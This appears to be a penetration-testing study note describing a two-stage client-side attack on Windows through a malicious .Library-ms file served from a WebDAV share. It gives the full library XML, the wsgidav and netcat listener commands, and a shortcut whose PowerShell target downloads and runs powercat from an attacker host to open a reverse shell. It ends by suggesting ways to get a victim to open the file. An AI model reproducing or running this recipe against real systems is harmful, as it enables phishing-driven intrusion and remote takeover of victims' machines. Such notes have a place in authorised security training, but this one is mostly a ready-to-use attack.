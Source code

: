 ```yaml
---
title: Code Execution via Window Library Files
updated: 2025-04-23 13:30:36Z
created: 2025-04-23 05:08:45Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Leverage a 2-stage Client-side attack
**Stage 1**: Use **Windows Library Files** to gain a foothold on the target system and setup the next stage.
**Stage 2:** Use the foothold to provide an executable file that will start a **reverse shell** when clicked.

1. Create folder and setup a a share for **WebDav**
`mkdir /home/kali/servers/webdav`
`wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/servers/webdav`

2. Use VS Studio Code to create a windows library file, save as:
**File name:**`config.Library-ms`
**Save as type:** Plain Text
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>1</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://x.x.x.x</url> 
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

3. Create a **shortcut** file
The goal is to start a reverse shell by putting the shortcut file on the **WebDav** share for the victim to execute.
**Name**: `automatic_configuration`
**Target**: `powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<evil>/powercat.ps1');powercat -c <evil> -p <port> -e powershell"`

4. Start WebServer and Netcat listener:
`cd /usr/share/powershell-empire/empire/server/data/module_source/management`
`python3 -m http.server 80`
`nc -nvlp <port>`

5. Launch the **config** file to connect to the WebDav share, and upload the files:
`automatic_configuration`
`config` (`config.Library-ms`)

6. Now try to get the target to execute the `config` file
Can use via Macro, SMBShare